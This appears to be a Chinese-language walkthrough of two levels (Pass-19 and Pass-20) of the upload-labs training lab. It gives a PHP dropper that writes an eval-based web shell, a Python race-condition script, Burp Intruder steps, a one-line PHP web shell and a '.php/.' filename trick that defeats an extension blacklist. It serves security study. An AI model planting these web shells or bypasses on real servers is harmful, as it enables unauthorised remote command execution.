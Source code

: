 ```php
<?php @eval(fwrite(fopen('eval.php','w'),'<?php @eval($_POST["cmd"]); ?>')); ?>
```

pass19.py:

```
# 注意：使用时记得删去注释，否则cmd窗口会一闪而过
import requests  # 第三方库
import os  # 为了让屏幕停留导入的库

url = "http://192.168.124.7/upload-labs-master/upload/pass19.php.7z"

while True:
    html = requests.get(url)
    if html.status_code == 200:
        print("OK")
        break

os.system('pause')  # 停留
```

#### 开始上传

上传pass19.php.7z并抓包，

发送到intruder模块，选择`clear$`

然后设置空payload

![image-20230924124152000](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230924124152000.png)

![image-20230924124239362](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20230924124239362.png)

然后`python pass19.py`执行，upload文件夹会产生eval.php

然后蚁剑连接即可

### Pass-20 

没有对上传的文件做判断，只对用户输入的文件名做判断
后缀名黑名单
上传的文件名用户可控
黑名单用于用户输入的文件后缀名进行判断
move_uploaded_file()还有这么一个特性，会忽略掉文件末尾的 `/.`

先准备PHP一句话木马，并把后缀名改为PNG再上传

```
11.php
<?php eval($_POST['cmd']); ?>
```

然后用BP来抓包，效果如下图，就是在`upload-19.jpg`改为`upload-19.php/.`

![image-20231002181848309](C:\Users\16159\AppData\Roaming\Typora\typora-user-images\image-20231002181848309.png)
